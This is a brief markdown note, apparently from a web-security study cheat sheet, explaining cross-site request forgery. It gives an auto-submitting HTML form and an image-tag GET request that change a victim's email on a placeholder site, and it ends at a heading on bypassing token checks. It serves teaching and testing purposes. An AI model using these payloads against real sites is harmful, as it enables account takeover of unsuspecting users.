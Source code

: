 # CSRF
CSRF is an attack when attacker induces user to perform some actions on site that they didn't want to do.  
```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
This html page will force user to change email  
Easiest way to construct CSRF page is to use CSRF PoC from engagement tools  
If it's possible to perform CSRF via GET request, we can use smth like this:
```
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```
## Bypassing CSRF token validation  
Switch POST to GET  
